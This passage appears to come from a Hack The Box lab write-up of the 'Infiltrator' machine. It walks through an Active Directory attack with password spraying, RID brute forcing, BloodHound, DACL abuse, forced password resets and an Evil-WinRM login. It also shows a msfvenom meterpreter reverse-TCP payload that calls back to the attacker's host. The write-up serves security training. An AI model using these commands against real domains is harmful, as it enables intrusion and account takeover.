SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\danderson:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\anderson:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\olivia:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\olivia.martinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\o.martinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\omartinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\martinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\kevin:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\kevin.turner:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\k.turner:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\kturner:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\turner:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\amanda:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\amanda.walker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\a.walker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\awalker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\walker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\marcus:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\marcus.harris:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\mharris:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\harris:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\lauren:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\lauren.clark:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
SMB         10.129.223.154  445    DC01             [*] Enumerated shares
SMB         10.129.223.154  445    DC01             Share           Permissions     Remark
SMB         10.129.223.154  445    DC01             -----           -----------     ------
SMB         10.129.223.154  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.223.154  445    DC01             C$                              Default share
SMB         10.129.223.154  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.223.154  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.223.154  445    DC01             SYSVOL          READ            Logon server share
```

## RID Brute Forcing

With `read permissions`  on `IPC$` we went for `RID Brute Forcing` to gain a more comprehensive list of `available usernames and groups`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ netexec smb 10.129.223.154 -u 'l.clark' -p 'WAT?watismypass!' --rid-brute
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.223.154  445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
SMB         10.129.223.154  445    DC01             498: INFILTRATOR\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.223.154  445    DC01             500: INFILTRATOR\Administrator (SidTypeUser)
SMB         10.129.223.154  445    DC01             501: INFILTRATOR\Guest (SidTypeUser)
SMB         10.129.223.154  445    DC01             502: INFILTRATOR\krbtgt (SidTypeUser)
SMB         10.129.223.154  445    DC01             512: INFILTRATOR\Domain Admins (SidTypeGroup)
SMB         10.129.223.154  445    DC01             513: INFILTRATOR\Domain Users (SidTypeGroup)
SMB         10.129.223.154  445    DC01             514: INFILTRATOR\Domain Guests (SidTypeGroup)
SMB         10.129.223.154  445    DC01             515: INFILTRATOR\Domain Computers (SidTypeGroup)
SMB         10.129.223.154  445    DC01             516: INFILTRATOR\Domain Controllers (SidTypeGroup)
SMB         10.129.223.154  445    DC01             517: INFILTRATOR\Cert Publishers (SidTypeAlias)
SMB         10.129.223.154  445    DC01             518: INFILTRATOR\Schema Admins (SidTypeGroup)
SMB         10.129.223.154  445    DC01             519: INFILTRATOR\Enterprise Admins (SidTypeGroup)
SMB         10.129.223.154  445    DC01             520: INFILTRATOR\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.223.154  445    DC01             521: INFILTRATOR\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.223.154  445    DC01             522: INFILTRATOR\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.223.154  445    DC01             525: INFILTRATOR\Protected Users (SidTypeGroup)
SMB         10.129.223.154  445    DC01             526: INFILTRATOR\Key Admins (SidTypeGroup)
SMB         10.129.223.154  445    DC01             527: INFILTRATOR\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.223.154  445    DC01             553: INFILTRATOR\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.223.154  445    DC01             571: INFILTRATOR\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.223.154  445    DC01             572: INFILTRATOR\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.223.154  445    DC01             1000: INFILTRATOR\DC01$ (SidTypeUser)
SMB         10.129.223.154  445    DC01             1101: INFILTRATOR\DnsAdmins (SidTypeAlias)
SMB         10.129.223.154  445    DC01             1102: INFILTRATOR\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.223.154  445    DC01             1103: INFILTRATOR\D.anderson (SidTypeUser)
SMB         10.129.223.154  445    DC01             1104: INFILTRATOR\L.clark (SidTypeUser)
SMB         10.129.223.154  445    DC01             1105: INFILTRATOR\M.harris (SidTypeUser)
SMB         10.129.223.154  445    DC01             1106: INFILTRATOR\O.martinez (SidTypeUser)
SMB         10.129.223.154  445    DC01             1107: INFILTRATOR\A.walker (SidTypeUser)
SMB         10.129.223.154  445    DC01             1108: INFILTRATOR\K.turner (SidTypeUser)
SMB         10.129.223.154  445    DC01             1109: INFILTRATOR\E.rodriguez (SidTypeUser)
SMB         10.129.223.154  445    DC01             1111: INFILTRATOR\Chiefs Marketing (SidTypeGroup)
SMB         10.129.223.154  445    DC01             1112: INFILTRATOR\Developers (SidTypeGroup)
SMB         10.129.223.154  445    DC01             1113: INFILTRATOR\Digital_Influencers (SidTypeGroup)
SMB         10.129.223.154  445    DC01             1114: INFILTRATOR\Infiltrator_QA (SidTypeGroup)
SMB         10.129.223.154  445    DC01             1115: INFILTRATOR\Marketing_Team (SidTypeGroup)
SMB         10.129.223.154  445    DC01             1116: INFILTRATOR\Service_Management (SidTypeGroup)
SMB         10.129.223.154  445    DC01             1601: INFILTRATOR\winrm_svc (SidTypeUser)
SMB         10.129.223.154  445    DC01             3102: INFILTRATOR\infiltrator_svc$ (SidTypeUser)
```

### Enumerating User Descriptions

While we proceeded with checking for more `low-hanging fruits` we used the `get-desc-users` module of `NetExec` and found another `password` in the `user description` of `K.turner`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ netexec ldap infiltrator.htb -u 'l.clark' -p 'WAT?watismypass!' -M get-desc-users
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
LDAP        10.129.223.154  389    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
GET-DESC... 10.129.223.154  389    DC01             [+] Found following users: 
GET-DESC... 10.129.223.154  389    DC01             User: Administrator description: Built-in account for administering the computer/domain
GET-DESC... 10.129.223.154  389    DC01             User: Guest description: Built-in account for guest access to the computer/domain
GET-DESC... 10.129.223.154  389    DC01             User: krbtgt description: Key Distribution Center Service Account
GET-DESC... 10.129.223.154  389    DC01             User: K.turner description: MessengerApp@Pass!
GET-DESC... 10.129.223.154  389    DC01             User: infiltrator_svc$ description: dc01.infiltrator.htb
```

| Usernames | Password           |
| --------- | ------------------ |
| K.turner  | MessengerApp@Pass! |

The password contained a hint for a potential `messenger application` and we saved this information for later.

## Active Directory Enumeration

Now it was time to move a step further into the `Active Directory`. Therefore we collected a `dump` of it using `bloodhound-python`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ bloodhound-python -u 'l.clark' -p 'WAT?watismypass!' -d 'infiltrator.htb' -gc 'dc01.infiltrator.htb' -ns 10.129.223.154 -c all --zip
INFO: Found AD domain: infiltrator.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 14 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.infiltrator.htb
INFO: Done in 00M 07S
INFO: Compressing output into 20240831221814_bloodhound.zip
```

We started `neo4j` and began with the `analysis`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ sudo neo4j start
[sudo] password for kali: 
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:110318). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

A quick look revealed a pretty straight forward path for which we focused on `D.ANDERSON@INFILTRATOR.HTB` as first target and to gain foothold on the box.


## Password  Reuse

Since we had at least `two passwords` and even more `usernames`, we went back to `kerbrute` and `password spraying`. Luckily for us we stumbled upon the classic `password reuse` vulnerability. In our case the users `l.clark` and `d.anderson` shared the same password.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ ~/opt/05_password_attacks/kerbrute/kerbrute passwordspray -d infiltrator.htb --dc 10.129.223.154 usernames.txt 'WAT?watismypass!' 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/31/24 - Ronnie Flathers @ropnop

2024/08/31 22:52:09 >  Using KDC(s):
2024/08/31 22:52:09 >   10.129.223.154:88

2024/08/31 22:52:10 >  [+] VALID LOGIN:  d.anderson@infiltrator.htb:WAT?watismypass!
2024/08/31 22:52:10 >  [+] VALID LOGIN:  l.clark@infiltrator.htb:WAT?watismypass!
2024/08/31 22:52:10 >  Done! Tested 35 logins (2 successes) in 0.127 seconds
```

| Username   | Password         |
| ---------- | ---------------- |
| d.anderson | WAT?watismypass! |

## Foothold

### Shadow Credentials

From our `BloodHound investigation` we knew that the next step was to use a `Shadow Credentials` attack to add `d.anderson` to the group of `MARKETING DIGITAL`. To perform this attack we first grabbed ourselves a valid `Kerberos Ticket` and made it available in our current session.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ impacket-getTGT infiltrator.htb/d.anderson:'WAT?watismypass!'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Saving ticket in d.anderson.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ export KRB5CCNAME=d.anderson.ccache
```

After fixing `dacledit.py` and adding ourselves to the desired group of `MARKETING DIGITAL`, we used `bloodyAD` to set a `new password` for `E.rodriguez` according to our `attack path`.

- [https://github.com/0xsyr0/OSCP#dacleditpy](https://github.com/0xsyr0/OSCP#dacleditpy)
- [https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ python3 dacledit.py -action write -rights 'FullControl' -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' -inheritance infiltrator.htb/'d.anderson:WAT?watismypass!' -k -use-ldaps -dc-ip dc01.infiltrator.htb       
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240901-083444.bak
[*] DACL modified successfully!
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos --dc-ip 10.129.223.154 -u "D.anderson" -p 'WAT?watismypass!' set password "E.rodriguez" 'WAT?watismypass!'
[+] Password changed successfully!
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ netexec smb 10.129.223.154 -u 'e.rodriguez' -p 'WAT?watismypass!'
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.223.154  445    DC01             [+] infiltrator.htb\e.rodriguez:WAT?watismypass!
```

After we verified the new `password` of `E.rodriguez` we proceeded and added `E.rodriguez` to the `CHIEFS MARKETING` group which members had the permission of `ForceChangePassword` on `M.harris`. Having the `password` of `M.harris` would put us in the position of the `CanPSRemote` permission on `DC01.INFILTRATOR.HTB` which was our goal to achieve `foothold` on the box.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ bloodyAD --host 'dc01.infiltrator.htb' -d 'infiltrator.htb' -u 'e.rodriguez' -p 'WAT?watismypass!' add groupMember 'CHIEFS MARKETING' 'e.rodriguez'
[+] e.rodriguez added to CHIEFS MARKETING
```

With being member of the group `CHIEFS MARKETING` we then set a `new password` for `M.harris`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ net rpc password 'm.harris' 'WAT?watismypass!' -U 'e.rodriguez'%'WAT?watismypass!' -S 'dc01.infiltrator.htb'
```

With the new password set we grabbed a `Kerberos Ticket` for `M.harris`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ impacket-getTGT infiltrator.htb/m.harris:'WAT?watismypass!'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Saving ticket in m.harris.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ export KRB5CCNAME=m.harris.ccache
```

Next we configured `krb5` to used the `realm` of `INFILTRATOR.HTB` which was crucial for our progress and especially to made `Evil-WinRM` work properly with `Kerberos`.

```c
┌──(kali㉿kali)-[~]
└─$ sudo apt-get install krb5-kdc
```

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/krb5.conf 
[libdefaults]
        default_realm = INFILTRATOR.HTB

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false


# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        ATHENA.MIT.EDU = {
                kdc = kerberos.mit.edu
                kdc = kerberos-1.mit.edu
                kdc = kerberos-2.mit.edu:88
                admin_server = kerberos.mit.edu
                default_domain = mit.edu
        }
        INFILTRATOR.HTB = {
                kdc = dc01.infiltrator.htb
                admin_server = dc01.infiltrator.htb
        }
        ZONE.MIT.EDU = {
                kdc = casio.mit.edu
                kdc = seiko.mit.edu
                admin_server = casio.mit.edu
        }
        CSAIL.MIT.EDU = {
                admin_server = kerberos.csail.mit.edu
                default_domain = csail.mit.edu
        }
        IHTFP.ORG = {
                kdc = kerberos.ihtfp.org
                admin_server = kerberos.ihtfp.org
        }
        1TS.ORG = {
                kdc = kerberos.1ts.org
                admin_server = kerberos.1ts.org
        }
        ANDREW.CMU.EDU = {
                admin_server = kerberos.andrew.cmu.edu
                default_domain = andrew.cmu.edu
        }
        CS.CMU.EDU = {
                kdc = kerberos-1.srv.cs.cmu.edu
                kdc = kerberos-2.srv.cs.cmu.edu
                kdc = kerberos-3.srv.cs.cmu.edu
                admin_server = kerberos.cs.cmu.edu
        }
        DEMENTIA.ORG = {
                kdc = kerberos.dementix.org
                kdc = kerberos2.dementix.org
                admin_server = kerberos.dementix.org
        }
        stanford.edu = {
                kdc = krb5auth1.stanford.edu
                kdc = krb5auth2.stanford.edu
                kdc = krb5auth3.stanford.edu
                master_kdc = krb5auth1.stanford.edu
                admin_server = krb5-admin.stanford.edu
                default_domain = stanford.edu
        }
        UTORONTO.CA = {
                kdc = kerberos1.utoronto.ca
                kdc = kerberos2.utoronto.ca
                kdc = kerberos3.utoronto.ca
                admin_server = kerberos1.utoronto.ca
                default_domain = utoronto.ca
        }

[domain_realm]
        .mit.edu = ATHENA.MIT.EDU
        mit.edu = ATHENA.MIT.EDU
        .infiltrator.htb = INFILTRATOR.HTB
        infiltrator.htb = INFILTRATOR.HTB
        .media.mit.edu = MEDIA-LAB.MIT.EDU
        media.mit.edu = MEDIA-LAB.MIT.EDU
        .csail.mit.edu = CSAIL.MIT.EDU
        csail.mit.edu = CSAIL.MIT.EDU
        .whoi.edu = ATHENA.MIT.EDU
        whoi.edu = ATHENA.MIT.EDU
        .stanford.edu = stanford.edu
        .slac.stanford.edu = SLAC.STANFORD.EDU
        .toronto.edu = UTORONTO.CA
        .utoronto.ca = UTORONTO.CA
```

After we finished the configuration we were able to login as `M.harris` using `Evil-WinRM` and to grab the `user.txt`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ evil-winrm -i dc01.infiltrator.htb --realm INFILTRATOR.HTB
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents>
```

## user.txt

```c
*Evil-WinRM* PS C:\Users\M.harris\Desktop> type user.txt
c4da9e472c4aab614ee23ec7e4a9140b
```

## Persistence

We noticed that our session died really quickly and to have more flexibility, we decided to spin up `Metasploit` and get a `meterpreter shell`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.72 LPORT=6969 -f exe -o asdf.exe
Warning: KRB5CCNAME environment variable not supported - unsetting
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: asdf.exe
```

```c
*Evil-WinRM* PS C:\Users\M.harris\Documents> upload asdf.exe
                                        
Info: Uploading /media/sf_cybersecurity/notes/HTB/Machines/Infiltrator/files/asdf.exe to C:\Users\M.harris\Documents\asdf.exe
                                        
Data: 9556 bytes of 9556 bytes copied
                                        
Info: Upload successful!
```

```c
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: After running db_nmap, be sure to check out the result 
of hosts and services
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.72
LHOST => 10.10.14.72
msf6 exploit(multi/handler) > set LPORT 6969
LPORT => 6969
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.72:6969
```

```c
[*] Sending stage (201798 bytes) to 10.129.223.154
[*] Meterpreter session 1 opened (10.10.14.72:6969 -> 10.129.223.154:50495) at 2024-09-01 11:47:41 +0200

meterpreter > 
```

## Enumeration

With the backup session spun up we started the `enumeration` of `M.harris privileges` and the `box`.

```c
*Evil-WinRM* PS C:\Users\m.harris\Documents> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== ==============================================
infiltrator\m.harris S-1-5-21-2606098828-3734741516-3625406802-1105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
INFILTRATOR\Protected Users                 Group            S-1-5-21-2606098828-3734741516-3625406802-525  Mandatory group, Enabled by default, Enabled group
INFILTRATOR\Developers                      Group            S-1-5-21-2606098828-3734741516-3625406802-1112 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

The privileges didn't helped us at all but we found two interesting folders in `C:\Program Files` called `Output Messenger` and `Output Messenger Server`.

```c
*Evil-WinRM* PS C:\Program Files> dir


    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        12/4/2023   9:22 AM                Common Files
d-----        8/21/2024   1:50 PM                Hyper-V
d-----        2/19/2024   3:52 AM                internet explorer
d-----        2/23/2024   5:06 AM                Output Messenger
d-----         9/1/2024  12:04 AM                Output Messenger Server
d-----       12/12/2023  10:04 AM                PackageManagement
d-----        2/19/2024   4:16 AM                Update Services
d-----        12/4/2023   9:23 AM                VMware
d-r---        11/5/2022  12:03 PM                Windows Defender
d-----        8/21/2024   1:50 PM                Windows Defender Advanced Threat Protection
d-----        11/5/2022  12:03 PM                Windows Mail
d-----        8/21/2024   1:50 PM                Windows Media Player
d-----        9/15/2018  12:19 AM                Windows Multimedia Platform
d-----        9/15/2018  12:28 AM                windows nt
d-----        11/5/2022  12:03 PM                Windows Photo Viewer
d-----        9/15/2018  12:19 AM                Windows Portable Devices
d-----        9/15/2018  12:19 AM                Windows Security
d-----       12/12/2023  10:04 AM                WindowsPowerShell
```

We also noticed quite a few `ports` assigned to this `application`.

```c
meterpreter > netstat

Connection list
===============

    Proto  Local address         Remote address        State        User  Inode  PID/Program name
    -----  -------------         --------------        -----        ----  -----  ----------------
    tcp    0.0.0.0:80            0.0.0.0:*             LISTEN       0     0      4/System
    tcp    0.0.0.0:88            0.0.0.0:*             LISTEN       0     0      616/lsass.exe
    tcp    0.0.0.0:135           0.0.0.0:*             LISTEN       0     0      896/svchost.exe
    tcp    0.0.0.0:389           0.0.0.0:*             LISTEN       0     0      616/lsass.exe
    tcp    0.0.0.0:445           0.0.0.0:*             LISTEN       0     0      4/System
    tcp    0.0.0.0:464           0.0.0.0:*             LISTEN       0     0      616/lsass.exe
    tcp    0.0.0.0:593           0.0.0.0:*             LISTEN       0     0      896/svchost.exe
    tcp    0.0.0.0:636           0.0.0.0:*             LISTEN       0     0      616/lsass.exe
    tcp    0.0.0.0:3268          0.0.0.0:*             LISTEN       0     0      616/lsass.exe
    tcp    0.0.0.0:3269          0.0.0.0:*             LISTEN       0     0      616/lsass.exe
    tcp    0.0.0.0:3389          0.0.0.0:*             LISTEN       0     0      60/svchost.exe
    tcp    0.0.0.0:5985          0.0.0.0:*             LISTEN       0     0      4/System
    tcp    0.0.0.0:9389          0.0.0.0:*             LISTEN       0     0      2684/Microsoft.ActiveDirect
    tcp    0.0.0.0:14118         0.0.0.0:*             LISTEN       0     0      6184/OMServerService.exe
    tcp    0.0.0.0:14119         0.0.0.0:*             LISTEN       0     0      6184/OMServerService.exe
    tcp    0.0.0.0:14121         0.0.0.0:*             LISTEN       0     0      6184/OMServerService.exe
    tcp    0.0.0.0:14122         0.0.0.0:*             LISTEN       0     0      6184/OMServerService.exe
    tcp    0.0.0.0:14123         0.0.0.0:*             LISTEN       0     0      4/System
    tcp    0.0.0.0:14125         0.0.0.0:*             LISTEN       0     0      4/System
    tcp    0.0.0.0:14126         0.0.0.0:*             LISTEN       0     0      4036/outputmessenger_httpd.
    tcp    0.0.0.0:14127         0.0.0.0:*             LISTEN       0     0      6184/OMServerService.exe
    tcp    0.0.0.0:14128         0.0.0.0:*             LISTEN       0     0      6184/OMServerService.exe
    tcp    0.0.0.0:14130         0.0.0.0:*             LISTEN       0     0      6184/OMServerService.exe
    tcp    0.0.0.0:14406         0.0.0.0:*             LISTEN       0     0      5928/outputmessenger_mysqld
    tcp    0.0.0.0:47001         0.0.0.0:*             LISTEN       0     0      4/System
    tcp    0.0.0.0:49664         0.0.0.0:*             LISTEN       0     0      468/wininit.exe
    tcp    0.0.0.0:49665         0.0.0.0:*             LISTEN       0     0      1272/svchost.exe
    tcp    0.0.0.0:49666         0.0.0.0:*             LISTEN       0     0      616/lsass.exe
    tcp    0.0.0.0:49667         0.0.0.0:*             LISTEN       0     0      1560/svchost.exe
    tcp    0.0.0.0:49671         0.0.0.0:*             LISTEN       0     0      2344/svchost.exe
    tcp    0.0.0.0:49692         0.0.0.0:*             LISTEN       0     0      616/lsass.exe
    tcp    0.0.0.0:49693         0.0.0.0:*             LISTEN       0     0      616/lsass.exe
    tcp    0.0.0.0:49698         0.0.0.0:*             LISTEN       0     0      616/lsass.exe
    tcp    0.0.0.0:49705         0.0.0.0:*             LISTEN       0     0      608/services.exe
    tcp    0.0.0.0:49727         0.0.0.0:*             LISTEN       0     0      2992/dns.exe
    tcp    0.0.0.0:49750         0.0.0.0:*             LISTEN       0     0      2516/certsrv.exe
    tcp    0.0.0.0:50603         0.0.0.0:*             LISTEN       0     0      2944/dfsrs.exe
    tcp    10.129.223.154:53     0.0.0.0:*             LISTEN       0     0      2992/dns.exe
    tcp    10.129.223.154:139    0.0.0.0:*             LISTEN       0     0      4/System
    tcp    10.129.223.154:389    10.129.223.154:61377  ESTABLISHED  0     0      616/lsass.exe
    tcp    10.129.223.154:389    10.129.223.154:61381  ESTABLISHED  0     0      616/lsass.exe
    tcp    10.129.223.154:389    10.129.223.154:61388  ESTABLISHED  0     0      616/lsass.exe
    tcp    10.129.223.154:5985   10.10.14.72:59026     TIME_WAIT    0     0      0/[System Process]
    tcp    10.129.223.154:5985   10.10.14.72:59042     ESTABLISHED  0     0      4/System
    tcp    10.129.223.154:15220  0.0.0.0:*             LISTEN       0     0      6364/OutputMessenger.exe
    tcp    10.129.223.154:15230  0.0.0.0:*             LISTEN       0     0      8180/OutputMessenger.exe
    tcp    10.129.223.154:50495  10.10.14.72:6969      ESTABLISHED  0     0      2124/asdf.exe
    tcp    10.129.223.154:61377  10.129.223.154:389    ESTABLISHED  0     0      2992/dns.exe
    tcp    10.129.223.154:61381  10.129.223.154:389    ESTABLISHED  0     0      2944/dfsrs.exe
    tcp    10.129.223.154:61388  10.129.223.154:389    ESTABLISHED  0     0      2944/dfsrs.exe
    tcp    127.0.0.1:53          0.0.0.0:*             LISTEN       0     0      2992/dns.exe
    tcp    127.0.0.1:389         127.0.0.1:49702       ESTABLISHED  0     0      616/lsass.exe
    tcp    127.0.0.1:389         127.0.0.1:49704       ESTABLISHED  0     0      616/lsass.exe
    tcp    127.0.0.1:389         127.0.0.1:49767       ESTABLISHED  0     0      616/lsass.exe
    tcp    127.0.0.1:389         127.0.0.1:50344       ESTABLISHED  0     0      616/lsass.exe
    tcp    127.0.0.1:389         127.0.0.1:50492       ESTABLISHED  0     0      616/lsass.exe
    tcp    127.0.0.1:389         127.0.0.1:61374       ESTABLISHED  0     0      616/lsass.exe
